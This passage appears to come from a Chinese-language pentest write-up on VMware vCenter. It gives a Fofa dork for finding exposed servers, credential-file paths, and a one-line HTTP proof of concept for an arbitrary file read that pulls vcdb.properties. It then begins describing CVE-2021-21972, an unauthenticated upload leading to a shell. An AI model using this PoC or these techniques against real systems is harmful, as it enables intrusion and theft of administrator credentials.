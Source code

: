 Nuclei 相关模板：

-   `/nuclei-templates/technologies/vmware/vmware-detect.yaml`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205061717231.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205061717231.png-water_print")

### [](#22-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96)2.2 任意文件读取

影响版本：`Vmware vCenter Server <= 6.5.0`

Fofa Dork:`title="ID_VC_Welcome"`

VMware vCenter 存在任意文件读取漏洞，可读取 vCenter 配置文件获得管理帐号密码进而控制 vCenter 平台及其管理的虚拟机集群。

由于 EAM 用户运行该存在漏洞的服务（非域用户），因此不存在 NTLM Relay 等中继攻击风险。

由于不同的系统版本，数据库配置文件（`vcdb.properties`）存放位置不同，根据[官方文档](https://kb.vmware.com/s/article/7960893?lang=zh_cn)，大体可以分为：

-   对于 vCenter Server 5.5 及更低版本：
    -   Windows 2008 - `C:\ProgramData\VMware\VMware VirtualCenter`
    -   其他 Windows 版本 - `C:\Documents and Settings\All Users\Application Data\VMware\VMware VirtualCenter\`
-   对于 vCenter Server 6.0、6.5、6.7：
    -   `C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx`

POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>GET /eam/vib?id={{path}}\vcdb.properties HTTP/1.1<br>Host: {{Hostname}}<br>``` |

nuclei 中对应的 poc：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi.yaml`
-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi-linux.yaml`

### [](#23-cve-2021-21972)2.3 CVE-2021-21972

#### [](#231-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)2.3.1 漏洞利用

默认启用的 vROps 插件（com.vmware.vropspluginui.mvc）ServicesController 类的 uploadova 接口存在未授权访问，可利用路径穿越将文件解压至特定目录实现 getshell。

影响版本：

-   `7.0 <= vCenter Server < 7.0 U1c`
-   `6.7 <= vCenter Server < 6.7 U3l`
-   `6.5 1e <= vCenter Server < 6.5 U3n`
-   `4.x <= Cloud Foundation (vCenter Server) < 4.2`
-   `3.x <= Cloud Foundation (vCenter Server) < 3.10.1.2`
